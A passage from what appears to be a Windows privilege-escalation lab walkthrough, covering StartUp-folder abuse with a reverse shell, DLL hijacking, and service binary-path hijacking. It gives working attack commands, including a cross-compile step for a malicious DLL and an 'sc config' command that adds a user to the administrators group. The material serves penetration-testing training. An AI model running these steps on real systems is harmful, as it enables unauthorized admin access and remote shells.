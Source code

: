 OR

1. Using accesschk.exe, note that the BUILTIN\Users group can write files to the StartUp directory: `C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"`
2. Using cscript, run the C:\PrivEsc\CreateShortcut.vbs script which should create a new shortcut to your reverse.exe executable in the StartUp directory: `cscript C:\PrivEsc\CreateShortcut.vbs`
3. Start a listener on Kali, and then simulate an admin logon using RDP and the credentials you previously extracted: `rdesktop -u admin MACHINE_IP`
4. A shell running as admin should connect back to your listener.


## 18. DLL Hijacking
When windows boot up it will look for dll files. If dll files doesn't exist and that path is writable we can get malicious.

1. Run process monitor as administrator.
2. In filter. Add filter "Result,is,NAME NOT FOUND then Include"
![lab](WP/010.PNG)
3. It will run for events and we can see dll files that are not found. If the path is writable we can hijack it.
4. We can go path in many paths.
5. For this you can copy windows_dll.c from tools>source to kali.
6. Edit the file.
![lab](WP/011.PNG)
7. `x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll`
8.  Or we can create payload and replacing etc.

## 19. Binary path or bin path <a name="Binary_path"></a>
1.  `powershell -ep bypass`
2. `. .\PowerUp.ps1`
3. `Invoke-AllChecks` it will look for different checks.
4. Or we do:
	1. `accesschk64.exe -uwcv Everyone *`
		1. `-u` for no error
		2. `-w` for writable
		3. `-c` for showing the service name
		4. `-v` for verbose
	2. `accesschk64.exe -uwcv daclsvc` where "daclsvc" is something we found.
	3. `sc qc daclsvc` then we could see binary path.
	4. We can change config of this path by `sc config daclsvc binpath="net localgroup administrators user /add"`
	5. `sc start daclsvc`
	